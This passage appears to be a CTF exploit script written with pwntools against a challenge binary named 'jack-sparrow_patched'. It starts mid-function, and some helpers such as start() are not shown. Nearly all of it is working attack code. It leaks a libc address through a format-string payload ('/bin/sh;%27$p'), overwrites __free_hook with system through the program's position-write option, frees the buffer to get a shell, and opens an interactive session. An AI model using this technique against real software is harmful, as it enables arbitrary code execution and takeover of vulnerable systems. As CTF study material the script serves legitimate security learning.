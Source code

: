 ```py
    
    gdb.attach(p, '''
    b *alter_position + 224
    continue
               ''')
    input("ATTACHED?")

def sendchoice(choice: int):
    p.sendlineafter("$ ", str(choice).encode())

def specify_dest(payload: bytes):
    sendchoice(1)

    p.sendlineafter(": ", payload)

def alter_pos(lat: int, long: int):
    sendchoice(2)

    p.sendlineafter(": ", str(lat).encode())
    p.sendlineafter(": ", str(long).encode())

def abandon():
    sendchoice(3)

context.binary = elf = ELF("./jack-sparrow_patched", checksec= False)
libc = elf.libc

p = start()

specify_dest("/bin/sh;%27$p")

p.recvuntil("choice: ")
libc.address = int(p.recvline(False).split(b';')[-1], 0x10) - libc.libc_start_main_return

print(hex(libc.address))

attach_gdb()
alter_pos(libc.sym.__free_hook, libc.sym.system)

abandon()

p.interactive()
p.close()
```